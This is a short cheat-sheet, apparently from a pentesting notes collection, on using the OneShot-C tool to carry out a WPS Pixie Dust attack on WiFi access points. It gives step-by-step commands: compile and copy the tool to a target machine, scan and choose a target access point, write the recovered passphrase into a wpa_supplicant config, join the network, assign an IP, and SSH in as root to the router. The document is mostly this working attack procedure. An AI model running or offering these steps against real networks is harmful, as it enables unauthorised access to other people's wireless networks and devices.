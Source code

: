 # OneShot, perform WiFi attacks even if the WiFi interface is not on monitor mode

## Github repo: https://github.com/nikita-yfh/OneShot-C

### Usage:

# Pixie Dust Attack

#### 1) Compile the .c program as per the instructions in the repo, then transfer it to target machine.

#### 2) Run the program to perform WiFi attacks:

 - ./oneshot -i wlan0 -K (Scan for the BSSID of the interface, then type a number to choose your target)

 - wpa_passphrase AP_SSID 'WPA_PSK_PASSWORD' > psk (Put all necessary credentials in one file)

 - wpa_supplicant -B -c psk -i wlan0

 - ifconfig wlan0 192.168.1.5 netmask 255.255.255.0 (Assign IP to interface. You may assign any IP you want to the specific interface)

 - ssh root@192.168.1.1 
